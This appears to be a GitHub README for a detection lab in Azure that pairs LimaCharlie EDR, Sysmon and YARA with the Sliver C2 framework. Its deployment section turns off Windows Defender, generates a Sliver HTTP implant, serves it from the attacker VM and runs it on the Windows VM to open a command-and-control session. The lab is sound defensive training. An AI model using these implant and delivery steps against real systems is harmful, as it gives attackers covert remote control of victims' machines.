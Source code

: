 # Azure-Threat-Detection-LimaCharlie-YARA
A demonstration of advanced threat detection and response using LimaCharlie SIEM, YARA rules, and Sliver C2 framework, deployed in a Microsoft Azure environment.


## Project Overview
This project focuses on deploying a comprehensive threat detection lab in Azure using Ubuntu and Windows 10 VMs to simulate real-world attacks with Sliver C2. By integrating LimaCharlie EDR with custom YARA rules, the system efficiently detects and responds to malicious files and processes. Additionally, automated detection and alerting workflows are established for advanced threat scenarios, ensuring real-time notifications via Slack for enhanced security response.

## Technologies Used

### Tools and Technologies:
- **Microsoft Azure:** Cloud platform for deploying and managing virtual machines (Ubuntu, Windows 10).
- **LimaCharlie EDR:** Endpoint Detection and Response platform for detecting and responding to threats in real-time.
- **YARA:** Pattern-matching tool for identifying and classifying malware based on custom rules.
- **Sliver C2:** Command and control framework for simulating real-world cyber attacks.
- **Sysmon (System Monitor):** Windows system service that logs system activity for enhanced threat detection.
- **Procdump:** Sysinternals tool for creating process dumps, used in malware analysis and detection.
- **Slack API:** For real-time notifications and alerts on security events.


## Setup Instructions

### Prerequisites
- **Azure Account:** Required for creating and managing the virtual machines.
- **LimaCharlie Account:** Necessary for integrating the EDR and monitoring system.
- **SSH Client:** For accessing the Ubuntu VM (e.g., built-in on Mac/Linux/Windows or third-party tools like PuTTY).
- **Admin Access:** Ensure you have administrative rights on both the VMs and your local machine for installations.

### VM Configuration
1. **Create VMs in Azure:**
   - Create two virtual machines: one Ubuntu and one Windows 10.
   - Ensure both VMs are in the same virtual network for seamless communication.
2. **Configure Windows VM:**
   - Disable Windows Defender to prevent interference during simulations.
   - Set up static IPs for both VMs for easier management.

### Installation

1. **Install Sysmon on Windows VM:**
   - **Open an Administrative PowerShell Console:**
     - Click the "Start" menu, search for "PowerShell," right-click on "Windows PowerShell," and select "Run as administrator."
   - **Download and Unzip Sysmon:**
     ```powershell
     Invoke-WebRequest -Uri https://download.sysinternals.com/files/Sysmon.zip -OutFile C:\Windows\Temp\Sysmon.zip
     Expand-Archive -LiteralPath C:\Windows\Temp\Sysmon.zip -DestinationPath C:\Windows\Temp\Sysmon
     ```
   - **Download SwiftOnSecurity’s Sysmon Config:**
     ```powershell
     Invoke-WebRequest -Uri https://raw.githubusercontent.com/SwiftOnSecurity/sysmon-config/master/sysmonconfig-export.xml -OutFile C:\Windows\Temp\Sysmon\sysmonconfig.xml
     ```
   - **Install Sysmon with the Config:**
     ```powershell
     C:\Windows\Temp\Sysmon\Sysmon64.exe -accepteula -i C:\Windows\Temp\Sysmon\sysmonconfig.xml
     ```
   - **Validate Sysmon Installation:**
     ```powershell
     Get-Service sysmon64
     ```

2. **Install LimaCharlie EDR on Windows VM:**
   - **Add Sensor in LimaCharlie:**
     - Once the organization is created in LimaCharlie, click "Add Sensor" and select "Windows."
     - Provide a description (e.g., "Windows VM - Lab") and click "Create."
   - **Install Sensor via PowerShell:**
     ```powershell
     cd C:\Users\User\Downloads
     Invoke-WebRequest -Uri https://downloads.limacharlie.io/sensor/windows/64 -Outfile C:\Users\User\Downloads\lc_sensor.exe
     ```
     - **Copy the installation command** provided by LimaCharlie (which contains the installation key) and run it in the terminal. Verify that the sensor is reporting in the LimaCharlie web UI.

3. **Configure LimaCharlie to Ship Sysmon Logs:**
   - **Add Artifact Collection Rule in LimaCharlie:**
     - In the left-side menu, click "Artifact Collection" and then "Add Rule."
     - **Rule Settings:**
       - Name: `windows-sysmon-logs`
       - Platforms: `Windows`
       - Path Pattern: `wel://Microsoft-Windows-Sysmon/Operational:*`
       - Retention Period: `10`
     - Click "Save Rule."

### Deployment

1. **Setup Attack System (Linux VM):**
   - **SSH into the Ubuntu VM:**
     ```bash
     ssh user@[Linux_VM_IP]
     ```
   - **Download and Install Sliver C2 Server:**
     ```bash
     sudo su
     wget https://github.com/BishopFox/sliver/releases/download/v1.5.34/sliver-server_linux -O /usr/local/bin/sliver-server
     chmod +x /usr/local/bin/sliver-server
     apt install -y mingw-w64
     ```
   - **Create Working Directory:**
     ```bash
     mkdir -p /opt/sliver
     ```

2. **Generate and Deploy C2 Payload:**
   - **Generate Payload:**
     ```bash
     generate --http [Linux_VM_IP] --save /opt/sliver
     ```
   - **Serve Payload via Python HTTP Server:**
     ```bash
     cd /opt/sliver
     python3 -m http.server 80
     ```
   - **Download Payload on Windows VM:**
     - Open an Administrative PowerShell console on Windows VM and run:
       ```powershell
       IWR -Uri http://[Linux_VM_IP]/[payload_name].exe -Outfile C:\Users\User\Downloads\[payload_name].exe
       ```

3. **Start Command and Control Session:**
   - **In Linux VM:**
     - Stop the Python web server (`Ctrl + C`).
     - Start the Sliver server:
       ```bash
       sliver-server
       ```
     - Start the HTTP listener within the Sliver shell:
       ```bash
       http
       ```
   - **In Windows VM:**
     - Execute the C2 payload:
       ```powershell
       C:\Users\User\Downloads\<your_C2-implant>.exe
       ```

4. **Observe EDR Telemetry:**
   - In the LimaCharlie web UI, navigate to "Sensors" and select the active Windows sensor.
   - Check the "Timeline" for real-time EDR telemetry and event logs. If you scroll back far enough, you should be able to find the moment your implant was created on the system, when it was launched shortly after, and the network connections it created immediately after.
